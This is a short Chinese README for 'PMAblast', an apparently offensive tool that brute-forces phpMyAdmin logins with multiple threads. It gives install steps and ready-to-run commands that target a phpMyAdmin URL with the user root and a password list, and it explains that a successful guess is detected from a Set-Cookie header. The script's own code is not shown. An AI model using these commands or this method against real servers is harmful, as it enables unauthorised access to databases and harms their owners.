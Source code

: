 ```yaml
---
typora-copy-images-to: images
---
```


# PMAblast

1、安装依赖库

```bash
pip3 install requests,argparse,threadpool
```

2、使用说明

```bash
python PMAblast.py -u "http://192.168.101.233/phpmyadmin/" -l root -P pass.txt
```

![image-20201229144853002](\images\image-20201229144853002.png)

多线程爆破,默认为10线程

```
python PMAblast.py -u "http://192.168.101.233/phpmyadmin/" -l root -P pass.txt -T 20
```

3、登陆检测原理

登陆成功后头部会携带Set-Cookie字段，进行判断。

![image-20201229145237847](images\image-20201229145237847.png)